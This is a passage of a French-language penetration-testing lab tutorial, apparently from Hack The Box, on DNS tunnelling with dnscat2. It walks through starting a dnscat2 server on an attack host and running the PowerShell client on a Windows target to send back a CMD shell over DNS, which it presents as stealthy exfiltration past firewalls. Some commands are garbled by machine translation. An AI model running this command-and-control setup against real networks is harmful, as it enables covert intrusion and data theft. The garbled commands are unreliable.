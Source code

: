 Tunnellisation DNS avec Dnscat2
==========================

* * * * *

[Dnscat2](https://github.com/iagox86/dnscat2) est un outil de tunnellisation qui utilise le protocole DNS pour envoyer des données entre deux hôtes. Il utilise un canal `Command-&-Control` (`C&C` ou `C2`) chiffré et envoie des données dans des enregistrements TXT au sein du protocole DNS. Habituellement, chaque environnement de domaine Active Directory dans un réseau d'entreprise aura son propre serveur DNS, qui résoudra les noms d'hôte en adresses IP et acheminera le trafic vers des serveurs DNS externes participant au système DNS global. Cependant, avec dnscat2, la résolution d'adresse est demandée à un serveur externe. Lorsqu'un serveur DNS local tente de résoudre une adresse, les données sont exfiltrées et envoyées sur le réseau au lieu d'une requête DNS légitime. Dnscat2 peut être une approche extrêmement furtive pour exfiltrer des données tout en évitant les détections de pare-feu qui suppriment les connexions HTTPS et reniflent le trafic. Pour notre exemple de test, nous pouvons utiliser le serveur dnscat2 sur notre hôte d'attaque et exécuter le client dnscat2 sur un autre hôte Windows.

* * * * *

Configuration et utilisation de dnscat2
--------------------------

Si dnscat2 n'est pas déjà configuré sur notre hôte d'attaque, nous pouvons le faire en utilisant les commandes suivantes :

#### Clonage dnscat2 et configuration du serveur

Clonage de dnscat2 et configuration du serveur

```
dsgsec@htb[/htb]$ git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/serveur/
bundle d'installation de gem
installation groupée

```

Nous pouvons ensuite démarrer le serveur dnscat2 en exécutant le fichier dnscat2.

#### Démarrage du serveur dnscat2

Démarrage du serveur dnscat2

```
dsgsec@htb[/htb]$ sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache

Nouvelle fenêtre créée : 0
dnscat2> Nouvelle fenêtre créée : crypto-debug
Bienvenue sur dnscat2 ! Certains documents peuvent être obsolètes.

attachement_auto => faux
history_size (pour les nouvelles fenêtres) => 1000
Politique de sécurité modifiée : toutes les connexions doivent être cryptées
Nouvelle fenêtre créée : dns1
Démarrage du serveur DNS Dnscat2 le 10.10.14.18:53
[domaines = inlanefreight.local]...

En supposant que vous ayez un serveur DNS faisant autorité, vous pouvez exécuter
le client n'importe où avec ce qui suit (--secret est facultatif) :

   ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

Pour parler directement au serveur sans nom de domaine, exécutez :

   ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Bien sûr, vous devez découvrir <serveur> vous-même ! Clients
se connectera directement sur le port UDP 53.

```

Après avoir exécuté le serveur, il nous fournira la clé secrète, que nous devrons fournir à notre client dnscat2 sur l'hôte Windows afin qu'il puisse authentifier et chiffrer les données envoyées à notre serveur dnscat2 externe. Nous pouvons utiliser le client avec le projet dnscat2 ou utiliser [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell), un client basé sur PowerShell compatible dnscat2 que nous pouvons exécuter à partir de cibles Windows pour établir un tunnel avec notre serveur dnscat2. Nous pouvons cloner le projet contenant le fichier client sur notre hôte d'attaque, puis le transférer sur la cible.

#### Clonage de dnscat2-powershell sur l'hôte d'attaque

Clonage de dnscat2-powershell sur l'hôte d'attaque

```
dsgsec@htb[/htb]$ git clone https://github.com/lukebaggett/dnscat2-powershell.git

```

Une fois le fichier `dnscat2.ps1` sur la cible, nous pouvons l'importer et exécuter les cmdlets associés.

#### Importation de dnscat2.ps1

Importation de dnscat2.ps1

```
PS C:\htb> Import-Module .\dnscat2.ps1

```

Une fois dnscat2.ps1 importé, nous pouvons l'utiliser pour établir un tunnel avec le serveur exécuté sur notre hôte d'attaque. Nous pouvons renvoyer une session shell CMD à notre serveur.

Importation de dnscat2.ps1

```
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd

```

Nous devons utiliser le secret pré-partagé (`-PreSharedSecret`) généré sur le serveur pour nous assurer que notre session est établie et cryptée. Si toutes les étapes sont terminées avec succès, nous verrons une session établie avec notre serveur.

#### Confirmation de l'établissement de la session

Confirmation de l'établissement de la session

```
Nouvelle fenêtre créée : 1
Séance 1 Sécurité : CRYPTÉE ET VÉRIFIÉE !
(la sécurité dépend de la force de votre secret pré-partagé !)

dnscat2>

```

Nous pouvons répertorier les options dont nous disposons avec dnscat2 en saisissant `?` à l'invite.

#### Liste des options dnscat2

Liste des options dnscat2

```
dnscat2> ?

Voici une liste de commandes (utilisez -h sur l'une d'entre elles pour une aide supplémentaire) :
* écho
* aider
* tuer
* arrêter
* ensemble
* commencer
* arrêt
* tunnels
* non défini
* fenêtre
* les fenêtres

```

Nous pouvons utiliser dnscat2 pour interagir avec les sessions et aller plus loin dans un environnement cible sur les engagements. Nous ne couvrirons pas toutes les possibilités avec dnscat2 dans ce module, mais il est fortement encouragé de s'entraîner avec lui et peut-être même de trouver des façons créatives de l'utiliser lors d'un engagement. Interagissons avec notre session établie et plongeons dans un shell.

#### Interagir avec la session établie

Interagir avec la session établie

``
